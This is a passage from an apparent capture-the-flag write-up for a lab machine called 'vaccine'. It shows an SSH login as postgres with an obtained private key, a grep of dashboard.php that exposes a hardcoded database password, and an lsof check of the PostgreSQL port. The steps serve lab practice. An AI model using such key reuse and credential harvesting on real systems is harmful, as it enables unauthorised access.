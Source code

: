 ```bash
# local
$ chmod 600 id_rsa

$ ssh -i id_rsa postgres@10.129.103.216
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 21 Nov 2023 07:25:11 PM UTC

  System load:  0.0               Processes:             184
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 20%               IP address for ens160: 10.129.103.216
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

### postgres's db

- enumerate sensitive data

```bash
postgres@vaccine:/var/www/html$ cat dashboard.php | grep conn
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

- indicate: db, username, password
- find proc listening to port 5432

```bash
postgres@vaccine:/var/www/html$ lsof -i:5432
COMMAND   PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
postgres 4439 postgres    3u  IPv4 117326      0t0  TCP localhost:postgresql (LISTEN)
```

- conn db [x]
